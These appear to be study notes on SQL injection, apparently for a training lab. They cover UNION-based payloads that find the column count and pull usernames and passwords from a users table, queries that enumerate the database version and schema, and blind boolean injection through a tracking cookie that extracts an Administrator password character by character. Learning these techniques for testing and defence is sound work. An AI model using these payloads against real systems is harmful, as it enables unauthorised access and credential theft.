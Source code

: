 ```
' UNION SELECT NULL,NULL,NULL--
```
After nr of columns, use values to determine data type and outputs

```
' UNION SELECT 'a',NULL,NULL,NULL--
```

```
' UNION SELECT username, password FROM users--
```

Examining the database - you can extract information about the version and structure of the database.

```
SELECT * FROM v$version
```
Determine what database tables exist, and which columns they contain
```
SELECT * FROM information_schema.tables
```

Different databases provide different ways of querying their version.

- Microsoft, MySQL	SELECT @@version
- Oracle	SELECT * FROM v$version
- PostgreSQL	SELECT version()

```
' UNION SELECT @@version--
```

Blind SQL injection - the results of a query you control are not returned in the application’s responses.

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

This query is vulnerable to SQL injection, but the results from the query are not returned to the user.

Check how server responds (change of cookie, delays)
```
xyz' AND '1'='1
```
```
xyz' AND '1'='2
```
This returns the “Welcome back” message, indicating that the injected condition is true.

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

Next input knowing password is greater than m (we find out not greater than t)
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

